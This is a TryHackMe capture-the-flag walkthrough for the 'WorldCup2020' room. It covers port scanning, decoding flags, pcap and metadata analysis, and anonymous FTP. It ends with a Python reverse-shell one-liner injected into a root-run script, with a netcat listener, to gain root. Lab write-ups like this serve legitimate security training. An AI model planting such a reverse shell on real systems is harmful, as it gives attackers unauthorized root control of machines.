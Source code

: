 ```yaml
---
title: WorldCup2020 CTF WalkThrough
permalink: /worldcupctf
layout: page
tags: TryHackMe
---
```

# WorldCup CTF Walkthrough
# ![front](/images/worldcup2020/front.png)
[https://tryhackme.com/room/worldcup2020ctf](https://tryhackme.com/room/worldcup2020ctf)
## Open Ports:
```
nmap -T4 -A $IP
```
* 21 - **ftp**
* 22 - **ssh**
* 80 - **http**

## Enumeration
### Port 80(*http*):
* In source of home page found 2 flags:
	* flag1/1{VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF}
	* flag1/2{8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==}
* On combinig the **TEXT** of both the flags i.e. *flag1/1 & flag1/2*
```
VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==
```
* we get a **Base64** encoded text which on decoding :
	* **TIMETOREWIND-2007WORLDCUP_00110010 00111001 00101110**
* Taking the "2007worldcup.html" adding to the **URL**
* Looking at the **Source** of the new page we get:
	* flag2{uggcf://jjj.lbhghor.pbz/jngpu?i=55wULbbFtZb(00111000 00110101 00110000)}
* The **TEXT** of flag2 looks like encoded with *ROT13* so on decoding we get:
	* https://www.youtube.com/watch?v=55jHYooSgMo
* On directory bruteforcing we find:
	* 2 main files are found **2007.exe & 2007.txt** 
	* For *2007.exe* first we need to change the extension to *.pdf*
	* Using peepdf tool we can get our flag.
	```
	python peedpf.py -fil 2007.pdf
	extract js > flag3.pdf
	cat flag.pdf
	```
	* Inside the flag.pdf file we get : flag3{my world ashes to ashes good time bad time - 00110010 01010011 00100000}
	* for txt file **"2007.txt"** inside directory y/u/v/r/a/j
	 * It contains hints to some file named **712** which has the communication between the players.
* Now adding /712.pcapng to the **URL**
	* a *pcap* file is downloaded.
* Open the **712.pcapng** file in **WireShark**
	* filter the http protocol
	* follow HTTP stream and then download the **dhoni.jpg** form the panel.
* Look at the *metadata* of the jpg file
```
 exiftool dhoni.jpg
```
* We get the first  half of the flag : flag4{cGFzc3dvcmRfY29uc2lzdF9vZl90d29fd29yZHNfc2Vjb25kd29yZ
* Now looking at the *hexvalue* of the file
```
hexeditor dhoni.jpg
```
* At the bottom we get the second half of the flag: F9pc19NU0RIT05JX2ZpbmQtMXN0PyAwMDExMDAxMSAwMDExMDAwMSAwMDEwMTExMA==}


### Port 21(*FTP*)
* found Anonymoous login in **FTP**
	* found *zip* file name  **treasure.zip** *(passwd protected)*(
			* Using *flag3 & on decoding(Base64) flag4* we the hints for the zip file's passowrd : **andrewflintoffmsdhoni**
	* *flag.txt.txt* is extracted 
	* This has the text encoded on **BrainFuck**
	* On decoding we get flag5{seventh bowler to take 500 wickets in Test cricket knows about ...ssssssssshhhh 00110000 00110010 00110111 }

### Port 22(*SSH*)
* Every flag has some binary text at its end.
* On combinig all the binary together 
```
00110010 00111001 00101110 00111000 00110101 00110000 00110010 01010011 00100000 00110011 00110001 00101110 00110000 00110010 00110111
```
* Decoding the binary to ASCII we get some co-ordinates : **----------**
	* Search in google for the location 
		* we find the stadium **"kingsmead"** (passwd)
* Using the hint form **flag5** *{seventh bowler to take 500 wickets in Test cricket knows about}* 
	* On google serach we find **stuartbroad** (username)
* login into ssh
```
ssh stuartbroad@$IP
```
* Inside ssh we find a hidden file named *.helloWorld.sh* 
	* Inside the bash script we find a command *whoami* executed and written to /Desktop/Users.txt
* On read the Users.txt file
```
cat Desktop/test.txt
```
* We see root by which we understand that the file is being execuated by **root**
* Adding a one liner reverse shell to the script
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Open a netcat session on your host device.
```
nc -lvnp 1234
```
* Wait for a minute.....
* Now in the netcat session you are the root user which has the finalfalg:

#### flag6{A trophy carries dust.Memories last forever}
